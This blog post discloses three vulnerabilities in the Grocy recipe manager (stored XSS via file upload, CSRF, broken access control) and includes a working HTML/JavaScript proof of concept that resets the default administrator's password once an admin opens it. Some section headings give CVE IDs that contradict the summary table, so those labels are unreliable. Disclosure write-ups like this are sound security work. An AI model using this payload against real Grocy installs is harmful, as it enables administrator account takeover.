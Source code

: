 ```yaml
---
title: All Your Recipe Are Belong to Us (Part 1/3) - Stored XSS, CSRF and Broken Access Control Vulnerabilities in Grocy
date: 2024-11-27T04:00:56+01:00
toc: true
images: 
tags:
  - CVE
  - Web
  - English
---
```


I used 4 hours of my free time (not counting the Responsible Disclosure and Blog Posts...) to "speed pentest" the three biggest and most popular (measured by Github stars) open-source cooking recipe managers. 

This included [Grocy](https://github.com/grocy/grocy), which had >6900 stars at the time of testing. Here I found 3 vulnerabilities. The first one is an _Unrestricted File Upload_, through which it was possible to upload any files. This included HTML and SVG files to achieve _Stored XSS_. The second one is a _CSRF_ vulnerability, because the session token has no security flags set, as well as no CSRF countermeasure is implemented. The last one is "one" _Broken Access Control_ vulnerability: For most functions, only the link in the sidebar is disabled for unauthorized users, but a direct call to the URL or API endpoint allows access to data for which you have no permissions.

## Overview of the Vulnerabilities
| CVE | Name                                                                               | CVSS Score      |
| ----- | ---------------------------------------------------------------------------------- | ------ |
| [CVE-2024-55074](https://www.cve.org/CVERecord?id=CVE-2024-55074) | Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS | [8.7 High](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) |
| [CVE-2024-55075](https://www.cve.org/CVERecord?id=CVE-2024-55075) | CSRF: Change the administrator's password                                          | [6.8 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| [CVE-2024-55076](https://www.cve.org/CVERecord?id=CVE-2024-55076) | BAC: Users can directly call functions, which they are not authorized for          | [6.5 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) |

## Remediation

The maintainer stated that they do not care about the vulnerabilities because Grocy is a hobby project and not intended for the use in a sensitive enterprise area. This means that the vulnerabilities probably won't get fixed.

## Vulnerabilities in Detail

### [CVE-2024-55074] Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS (8.7 High)
Users have by default the permission to edit their own profile. There they can upload a profile picture. However it is not validated whether the uploaded file is a benign picture or not. Thus, it is possible to upload malicious HTML or SVG files. As a POC I've created the following HTML file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update User</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the PUT request
        async function updateUser() {
            const url = '/api/users/1'; // Target endpoint
            const payload = {
                username: "admin",
                first_name: "",
                last_name: "",
                change_password: "1",
                password: "NewPassword123",
                password_confirm: "NewPassword123"
            };

            try {
                const response = await fetch(url, {
                    method: 'PUT',
                    credentials: 'include', // Include cookies in the request
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload) // Convert payload to JSON string
                });

                if (response.ok) {
                    document.getElementById('status').textContent = 'User updated successfully!';
                } else {
                    const errorText = await response.text();
                    document.getElementById('status').textContent = 'Failed to update user: ' + errorText;
                }
            } catch (error) {
                document.getElementById('status').textContent = 'Error: ' + error.message;
            }
        }

        // Execute the request when the page loads
        (async function execute() {
            await updateUser();
        })();
    </script>
</body>
</html>
```
When the file is viewed by an administrator, the JavaScript will issue a request that changes the password of the user with id 1 (by default an administrator) to `NewPassword123`.
The following screenshot shows the upload function:

![Grocy1](/media/2024/11/grocy1.png)

After saving the changes, we can see the URL of the uploaded file

![Grocy2](/media/2024/11/grocy2.png)

We need to remove the appended `?force_serve_as=picture&best_fit_width=32&best_fit_height=32` in order for the file to be executed

![Grocy3](/media/2024/11/grocy3.png)

As we do not have administrative rights (YET ;)) we receive an error message. However, if an administrator visits the url, the request is successful

![Grocy4](/media/2024/11/grocy4.png)

Now we can login as the administrator `admin` with the newly set password `NewPassword123`

![Grocy5](/media/2024/11/grocy5.png)

### [CVE-2024-45875] CSRF: Change the administrator's password (6.8 Medium)
The session cookie has no security flags (escpecially SameSite) set

![Grocy6](/media/2024/11/grocy6.png)

Further no CSRF countermeasures (such as CSRF-Tokens) are implemented at all, leaving all functions vulnerable to CSRF. E.g. see the following request to change the administrator's password

![Grocy7](/media/2024/11/grocy7.png)

The same POC as the previous vulnerability can be used, but instead of the relative URL a absolute URL needs to be specified. If an adminstrative user visits this POC on the attacker's website, the password of the default administrative user will be changed.

### [CVE-2024-55074] Broken Access Control: Users can directly call functions, which they are not authorized for (6.5 Medium)

As a starting point, we create a user `user` with no permissions

![Grocy8](/media/2024/11/grocy8.png)

The user is not authorized to access most of the functions of the webapp. The links to those functions are deactivated on the sidebar. However the user is still able to access those functions by requesting their URL directly. e.g. we can request /calendar in order to view the calendar and its entries.

![Grocy9](/media/2024/11/grocy9.png)

A further example are the recipes

![Grocy10](/media/2024/11/grocy10.png)

This affetcs ALL functions except the user management.

However, it is only possible to view data and not to modify it.

## Timeline
| Date | Event |
| - | - |
| 2024-11-26 | Discovered the vulnerabilities |
| 2024-11-26 | Reported the vulnerabilites |
| 2024-11-26 | Maintainer replied that they do *NOT* want to be bothered with "irrelevant" security issues and that I may publish my blog post |
| 2024-11-27 | CVEs requested |
| 2025-01-06 | CVEs were assigned |

